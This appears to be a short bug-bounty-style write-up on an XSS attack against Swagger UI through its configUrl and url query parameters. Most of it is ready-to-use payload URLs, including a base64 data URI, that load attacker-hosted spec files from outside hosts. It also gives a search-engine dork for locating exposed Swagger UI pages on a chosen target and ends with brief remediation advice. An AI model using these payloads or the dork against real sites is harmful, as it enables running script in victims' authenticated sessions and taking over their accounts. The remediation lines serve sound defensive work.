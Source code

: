 
## Swagger UI can be found at /classicapi/doc/

- Added these payloads after `/classicapi/doc/`

### Payloads:

• `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`

• `?configUrl=https://jumpy-floor.surge.sh/test.json`

• `?url=https://jumpy-floor.surge.sh/test.yaml`

• The payload might not work, so we move on to the next payload, and so on.

### Final payload examples:
- `https://example.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==`

- `https://example.com/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json`

- `https://example.com/classicapi/doc/?url=https://jumpy-floor.surge.sh/test.yaml`

### Find Swagger UI using dorks:
`intext:"Swagger UI" intitle:"Swagger UI" site:yourtarget.com`
(the dork yields some false positives, but it's good enough)

### Impact:
- an attacker can execute arbitrary js code in the context of <vulnerable_url>
- it means he can do whatever authenticated user at <vulnerable_url> could do

### Remediation:
- q: you have found a vulnerable swagger ui version in your organization, now what?
- a: it is simple, just update to the latest version. check out npm-update for more info

- q: what if you can't upgrade the whole swagger ui package?
- a: you can upgrade only the dompurify package that is used by swagger ui


